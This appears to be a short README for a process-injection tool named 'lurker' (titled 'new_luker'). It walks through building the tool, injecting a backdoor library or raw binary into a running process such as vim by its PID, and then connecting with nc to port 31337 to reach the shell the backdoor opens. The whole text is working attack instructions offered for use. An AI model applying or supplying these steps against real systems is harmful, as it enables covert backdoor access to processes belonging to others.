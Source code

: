 # new_luker
1. Run `make`.

2. start the target process, such as `vim`, by executing: `vim`.

3. In another terminal, execute: ./lurker --s \`pidof vim\` \`pwd\`/bkdoor_so.so OR ./lurker --b \`pidof vim\` bkdoor.o.bin to inject the code into the target process, such as `vim`.

4. Finally,  `nc 127.0.0.1 31337`.
